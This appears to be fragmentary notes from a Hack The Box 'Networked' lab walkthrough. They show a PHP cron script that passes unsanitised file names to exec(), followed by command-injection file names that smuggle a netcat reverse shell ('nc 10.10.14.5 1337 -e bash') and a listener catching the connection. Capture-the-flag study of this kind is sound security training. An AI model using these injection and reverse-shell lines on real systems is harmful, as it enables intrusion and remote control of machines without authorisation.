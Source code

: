 ```php
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```





bash-4.2$ cat /home/guly/crontab.guly     
*/3 * * * * php /home/guly/check_attack.php



kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ touch uploads/"; echo test"
kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ php check_attack.php 
PHP Notice:  Array to string conversion in /home/kali/htb/boxes/networked/10.10.10.146/backup/check_attack.php on line 22
Arrayattack!
nohup /bin/rm -f uploads/; echo test > /dev/null 2>&1 &rm -f uploads/; echo test


kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ touch uploads/'; nc 10.10.14.5 1337 -e bash; #'
kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ php check_attack.php 
PHP Notice:  Array to string conversion in /home/kali/htb/boxes/networked/10.10.10.146/backup/check_attack.php on line 22
Arrayattack!
nohup /bin/rm -f uploads/; nc 10.10.14.5 1337 -e bash; # > /dev/null 2>&1 &kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ 



connects, but immediately disconnects
kali@kali:~/htb/boxes/networked/10.10.10.146$ nc -lvnp 1337
listening on [any] 1337 ...


connect to [10.10.14.5] from (UNKNOWN) [10.10.10.146] 60806





touch '; nc 10.10.14.5 1337 -e $(which bash);'



![](2021-02-10-12-27-55.png)
